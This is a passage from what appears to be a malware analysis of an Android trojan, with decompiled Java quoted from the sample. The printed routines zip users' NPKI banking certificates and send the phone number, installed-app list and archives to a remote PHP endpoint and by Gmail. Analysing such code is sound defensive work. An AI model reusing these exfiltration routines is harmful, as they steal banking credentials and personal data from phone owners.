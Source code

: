 >	}
>}
> ```

First interesting thing is that the app will create a directory named `temp`, where exfiltrated data will be put. Indeed, here is the routine `zipCert̀`:

> ```java
>private void zipCert(){
>	try{
>		if (NPUtil.isNPKIExists()){
>			String str = ((TelephonyManager)getSystemService("phone")).getLine1Number() + "_npki.zip";
>			ZipUtil.ZipFolder(NPUtil.getFolder.toString() + "/", this.url.getSDPath() + "/" + str);
>		}
>	}
>	catch (Exception localException){
>		localException.printStackTrace();
>	}
>}
> ```

where `getSDPath` actually returns the path to `temp`.

Second interesting thing: many evil services are launched, and finally, administration privileges are requested as we saw.

### UploadPhone Service

The `onStartCommand` is as follows in JD-GUI:

> ```java
>public int onStartCommand(Intent paramIntent, int paramInt1, int paramInt2){
>	this.pm = getPackageManager();
>	new Thread(new Runnable(){
>		public void run(){
>			uploadPhone.this.listAppcations = uploadPhone.this.pm.getInstalledApplications(8192);
>			Object localObject = uploadPhone.this.getSoftName(uploadPhone.this.pm);
>			String str1 = Tool.GetUrlTool();
>			Url localUrl = new Url();
>			String str2 = "http://" + str1 + "/phon/youxi.php";
>			str1 = ((TelephonyManager)uploadPhone.this.getSystemService("phone")).getLine1Number();
>			ArrayList localArrayList = new ArrayList();
>			localArrayList.add(new BasicNameValuePair("phone", str1));
>			localArrayList.add(new BasicNameValuePair("softname", (String)localObject));
>			Tool.postHttpConnectionCommon(str2, localArrayList);
>			Tool.postHttpFile(uploadPhone.this.getApplicationContext());
>			try{
>				ZipUtil.ZipFolder(localUrl.getSDPath(), localUrl.getSDPath1() + "/all.zip");
>				localObject = new File(localUrl.getSDPath1() + "/all.zip");
>				Tool.postHttpFile1(uploadPhone.this.getApplicationContext(), (File)localObject, "all");
>				GMailSend.MailSend(str1, "npki", str1 + "_npki.zip", localUrl.getSDPath());
>				uploadPhone.this.uploadTel();
>				return;
>			}
>			catch (Exception localException){...}
>		}
>	}).start();
>	return paramInt2;
>}
> ``` 
